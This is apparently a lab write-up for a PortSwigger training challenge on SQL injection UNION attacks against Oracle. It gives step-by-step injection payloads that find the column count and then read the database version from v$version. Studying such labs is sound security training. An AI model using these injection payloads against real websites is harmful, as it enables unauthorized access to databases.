 ```yaml
---
title: PortSwigger - SQLi 7 - UNION attack, querying the database type and version on Oracle
date: 2023-03-15
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

To solve the lab, display the Oracle database version string.

## ✅ Solution

> On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`

Number of columns:

````text
<website>/filter?category=Pets' UNION SELECT NULL FROM DUAL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL FROM DUAL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL FROM DUAL--    # error!
````

Is one column containing string?

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL FROM DUAL--    # works
````

Full payload:

````text
<website>/filter?category=Pets' UNION SELECT banner,NULL FROM v$version--
````

The database type and version are displayed.
